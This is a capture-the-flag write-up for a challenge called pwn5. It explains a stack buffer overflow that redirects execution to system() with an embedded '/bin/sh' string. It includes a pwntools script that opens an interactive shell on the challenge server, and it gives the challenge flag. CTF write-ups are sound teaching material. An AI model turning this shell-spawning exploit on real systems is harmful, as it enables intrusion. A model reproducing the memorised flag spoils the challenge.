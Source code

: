 # pwn / pwn5

> Points: 2892

## Question

```
nc uwctf.ml 6006
```

## Solution

The win function has been replaced so it no longer prints the flag.  
```c
void win(void) {
    system("/bin/echo unhackable");
    return;
}
```

We'll have to find a way to get a shell and print it manually, time for our first shell exploit!  
This is made easier by the fact that the program contains the string "/bin/sh".
```
        08048650 2f 62 69        char[8]    "/bin/sh"
                 6e 2f 73 
                 68 00
```

So all we really have to do is jump to `system` with `"/bin/sh"` as a parameter.  
Remember the string `"/bin/sh"` was stored at offset in the binary `0x08048650`.  
This is just the same code as pwn2 but with a different function and a different parameter value.
```python
from pwn import *

exe = ELF("chall5.bin")
p = remote("uwctf.ml", 6006)
p.send(b"A" * 28 + p32(exe.sym["system"]) + b"AAAA" + p32(0x08048650) + b"\n")
p.interactive()
```

### Flag

`uwctf{buff3r0v3rf10w5_dab2a4447a729143}`
